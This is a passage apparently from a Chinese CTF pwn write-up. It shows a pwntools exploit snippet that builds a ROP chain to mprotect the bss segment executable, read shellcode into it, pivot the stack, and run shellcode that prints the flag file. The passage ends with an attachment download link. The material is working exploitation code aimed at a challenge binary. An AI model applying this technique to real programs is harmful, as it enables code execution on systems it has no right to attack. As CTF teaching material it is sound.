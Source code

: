 **另一种 mproetct+shellcode：**

```bash
mp = p64(pop_rdi)+p64(bss)+p64(pop_rsi)+p64(0x1000)+p64(pop_rdx)+p64(7)+p64(mproetct)
#mproetct(bss,0x1000,7)
mp += p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(bss+0x600)+p64(pop_rdx)+p64(0x300)+p64(elf.plt["read"])
#read(0,bss+0x600,0x300)
mp += p64(bss+0x600)
#shellcode
mp = mp.ljust(0xb0,b'\0')
mp += p64(stack_addr+0x28-8)+p64(0x4012e0)
p.send(mp)

ru(b'Posted Successfully~\n')
sc = asm(shellcraft.cat(b"./flag"))
p.send(sc)
```

‍

![](assets/1701606597-d03a5e4b40ff92d0dd5ebf3823a3802c.gif)附件.zip (0.833 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20231116173747-cd45d936-8463-1.zip)
